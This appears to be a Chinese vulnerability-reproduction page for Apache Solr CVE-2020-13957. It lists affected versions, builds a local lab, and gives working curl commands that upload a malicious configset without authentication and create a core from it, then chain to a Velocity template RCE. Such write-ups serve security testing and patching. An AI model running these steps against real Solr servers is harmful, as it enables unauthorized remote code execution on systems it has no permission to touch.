 ```yaml
---
title: Apache Solr RCE 未授权上传漏洞 CVE-2020-13957
---
```


# Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

## 环境搭建

选择一个存在漏洞的版本, 这里复现使用的是 `Apache Solr 7.7.0` 进行复现, 下载后执行以下命令进行环境部署

```shell
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```shell
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f](/assets/PeiQi-Wiki/img/540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f.png)

将 vuln.zip 进行上传

```shell
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

name参数为压缩包的文件名, 利用漏洞创建一个 core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

<a-alert type="success" message="name参数为创建的core核心名" description="" showIcon>
</a-alert>

<a-alert type="success" message="collection.configName参数为上传的文件名" description="" showIcon>
</a-alert>
<br/>
再使用 Apache Solr Velocity模板远程执行`CVE-2019-17558` 即可执行任意命令